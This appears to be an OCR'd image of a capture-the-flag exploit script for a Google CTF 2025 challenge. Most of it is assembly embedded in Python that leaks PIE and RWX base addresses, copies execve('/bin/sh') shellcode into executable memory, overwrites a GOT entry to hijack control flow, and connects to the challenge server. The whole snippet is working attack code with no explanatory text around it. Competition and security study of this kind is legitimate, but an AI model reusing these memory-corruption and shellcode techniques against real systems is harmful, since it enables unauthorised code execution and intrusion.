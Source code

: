 ```python
        /* Call map_address */
        mov rbx, 0x5000
        mov rcx, 0x2000
        mov rdx, r12 # r12 is shared_buffers[0]
        sub rdx, 0x12bf0 # map to the base of area instead of to the shared_buffers[0]
        mov rax, 5
        int 0x80
        /* Store leaked pie at r11 and leaked rwx at r10 */
        mov rbx, 0x5000
        add rbx, 0x1100
        mov r11, qword ptr [rbx]
        sub r11, 0x785b20 # r11 = PIE BASE
        mov rbx, 0x5000
        add rbx, 0x0b88
        mov r10, qword ptr [rbx]
        sub r10, 0x1c2f # r10 = RWX BASE
        /* Print for debugging purposes */
        mov rbx, r11
        mov rax, 0x2
        int 0x80
        mov rbx, r10
        mov rax, 0x2
        int 0x80
    leak_pie_rwx_end:
    load_rce:
        /* map_address of 0x7000 to rwx address of choice where we will write rce code*/
        mov rbx, 0x7000
        mov rcx, 0x1000
        mov rdx, r10 # r10 = rwx address
        mov rax, 5
        int 0x80
        /* Fill shellcode to rwx which is mapped at 0x7000 */
        mov rdi, 0x7000
        lea rsi, [rip+get_shell]
        lea rcx, [rip+get_shell_end]
        sub rcx, rsi
        rep movsb
        get_shell:
            lea rdi, [rip+binsh_str]
            xor rsi, rsi
            xor rdx, rdx
            mov rax, 0x3b
            syscall
            binsh_str:
                .ascii "/bin/sh\0"
        get_shell_end:
    load_rce_end:
    load_got:
         /* map_address of 0x8000 to got address */
        mov rbx, 0x8000
        mov rcx, 0x1000
        mov rdx, r11 # r11 = write GOT address
        mov rax, 5
        int 0x80
        /* overwrite 0x8000 which contains the got entry for write with r10 -> addr to shellcode */
        mov qword ptr [rbx], r10
    load_got_end:
    password:
        .ascii "sup3r_s3cure_sj\0"
    memprot_x86_64:
        .ascii "memprot_x86_64\0"
''')
p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)
```